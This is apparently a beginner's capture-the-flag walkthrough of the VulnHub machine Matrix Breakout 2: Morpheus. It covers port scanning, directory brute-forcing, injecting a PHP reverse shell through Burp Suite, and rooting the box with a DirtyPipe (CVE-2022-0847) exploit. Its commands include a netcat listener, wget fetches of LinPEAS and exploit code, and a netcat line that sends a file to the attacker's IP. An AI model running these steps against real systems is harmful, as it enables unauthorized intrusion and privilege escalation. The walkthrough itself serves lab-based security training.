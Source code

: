 # Matrix Breakout 2 Morpheus Walkthrough

Welcome to our in-depth walkthrough of the Matrix Breakout 2 machine, a challenging and educational penetration testing environment provided by VulnHub. This is the second machine in the Matrix-Breakout series, themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.
In this walkthrough, we'll guide you through the process of enumerating and compromising the Morpheus 12 machine, using a combination of tools and techniques to identify vulnerabilities and gain access to the system.
[Download Matrix Breakout 2: Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)



## Lab Setup

To follow along, we'll be using VirtualBox with a bridged network connection.
To get started, we'll begin by identifying the target machine's IP address using  the arp scan 

```sh
 sudo arp-scan -l
```

We have :

- **Target Machine (Morpheus):** 192.168.159.134 
- **Attacker Machine:** 192.168.159.12

## Enumeration

From there, we'll dive into the enumeration process, exploring various techniques to uncover vulnerabilities and ultimately gain access to the system and nmap knows how to do this best by telling us what ports are open and the services running on them.

### Nmap Scan

```sh
nmap -sV -sC -p- -A <IP address>
```

--- Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 04:40 WAT
--- Nmap scan report for 192.168.159.132
--- Host is up (0.00060s latency).
--- Not shown: 65532 closed tcp ports (reset)
--- PORT   STATE SERVICE VERSION
--- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
--- | ssh-hostkey: 
--- |_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
--- 80/tcp open  http    Apache httpd 2.4.51 ((Debian))
--- |_http-title: Morpheus:1
--- |_http-server-header: Apache/2.4.51 (Debian)
--- 81/tcp open  http    nginx 1.18.0
--- | http-auth: 
--- | HTTP/1.1 401 Unauthorized\x0D
--- |_  Basic realm=Meeting Place
--- |_http-server-header: nginx/1.18.0
--- |_http-title: 401 Authorization Required
--- MAC Address: 00:0C:29:33:22:92 (VMware)
--- No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
--- TCP/IP fingerprint:
--- OS:SCAN(V=7.94SVN%E=4%D=4/24%OT=22%CT=1%CU=39718%PV=Y%DS=1%DC=D%G=Y%M=000C2
--- OS:9%TM=66287F38%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%I
--- OS:I=I%TS=A)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW
--- OS:6%O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88
--- OS:%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
--- OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
--- OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
--- OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
--- OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
--- OS:FI=N%T=40%CD=S)

--- Network Distance: 1 hop
--- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

--- TRACEROUTE
--- HOP RTT     ADDRESS
--- 1   0.60 ms 192.168.159.132

--- OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
--- Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds

Using Nmap, we discovered the following open ports:

**22 (SSH)**
**80 (HTTP)**
**81 (HTTP)**

We visited the web page at http://192.168.159.134(Port 80).We see a webpage briefing  us on who  we are and our mission

![alt img](images/3-1.png)

## Directory Bursting
We use Gobuster to search for additional directories:


```sh 
gobuster -u http://192.168.159.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt 
```

During our search, we discovered some interesting files and pages:

--http://192.168.159.132/javascript
http://192.168.159.132/robot.txt
http://192.168.159.132/graffiti.php
http://192.168.159.132/graffiti.txt

## Gaining Shell

We've discovered something intriguing in the directories. The output from /graffiti.php redirects to /graffiti.txt, which could be quite useful for us. To leverage this, we'll manipulate the HTTP request and response using our trusted tool, Burp Suite. This allows us to thoroughly analyze and potentially exploit these findings.

![alt img](images/4-6.png)

**How do we do that?**

Make sure your browser is set to use Burp Suite as its proxy. An easy and popular way to do this is by using the FoxyProxy extension. Once enabled, you can add Burp Suite as a proxy, making the process faster and more efficient
Once we open Burp,
Have the interceptor on,
Load the page from the browser,
Check the HTTp response of the /graffiti.php,
Send to repeater

![alt img](images/4-5.png)

With this repeater, we can insert a malicious or reverse shell code to gain a shell session. We will be going with a reverse shell code from pentestmonkey reverse shell from git.
[Pentestmonkey Reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![alt img](images/4-4.png)

 We are going to copy that code into our burp, add our listening machine and listening port, create a netcat listener on our attacking machine

```sh
nc -nlvp 4444
```


![alt img](images/4-7.png)

![alt img](images/4-8.png)
 
 And we are in!..
 Let go around and find our id and priviledges

 ![alt img](images/4-9.png)

 We found our first Flag.....where are the fireworks?🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊

  ![alt img](images/4-3.png).

## Gaining Root
We might have gained shell as www-data... but that is low level user but to be able to get back our machine, we need to escalate our priviledges by working our way to root. Let us find out the vuneabilities usin LinPeas
LinPEAS is a script designed to search for possible paths to escalate privileges on a Linux system by identifying vulnerabilities and misconfigurations. We are going to elevate our privileges by first running LinPEAS and checking for vulnerabilities.
Firstly download linpeas from git
[LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

**Or**
Create a linpeas.sh file 
```sh
nano linpeas.sh
```
Go to linpeas.sh, copy the code and paste into your file. 

![alt img](images/5-1.png)

Anyone that works well for you.Chnage the mode to make the scrippt executable


```sh
chmod +X linpeas.sh
```

Host a http server inthe directory the file is saved
```sh
python -m http.server 80
```
![alt img](images/5-2.png)

On the www-data shell, download the file from the  http server using wget 
```sh
wget http:<Attacker IP address>:80
```
This will download the linpeas script 
Make sure the script is executable (remember chmod)
Then run
```sh
./linpeas.sh
```

This process usually takes a lot of time and generates extensive data, so a cleaner approach is to save the results to a file called output. Then, transfer this file back to your machine for thorough examination.
```sh 
./linpeas >> output

```
Send back to your machine 
```sh 
nc <Attacker IP address> 4000 < output
```

From the output we find out  our system is vunerable  to **CVE-2022-0847 DirtyPipe**

![alt img](images/5-3.png)

We open our browser and find DirtyPipe EXploits from Alexis Ahmed. This exploit is written in C so we need gcc to be able to complie that and lucky for us, the exploit comes witha file that automatically compiles the script.All we have to do is follow the instructions  and download

[DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c)

```sh
wget https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c
```
![alt img](images/5-4.png)


we change the mode to make the file executable

![alt img](images/5-5.png)

Ta-da! We've rooted this machine!

![alt img](images/5-6.png)

Morpheus 12 on VulnHub is an easy-rated CTF machine that focuses on web enumeration and privilege escalation. The Dirty Pipe exploit adds a fun twist to the challenge. It's a great learning resource for beginners looking to practice their penetration testing skills.

Thank you for joining the walkthrough! I hope you enjoyed it.

***WhiteJ**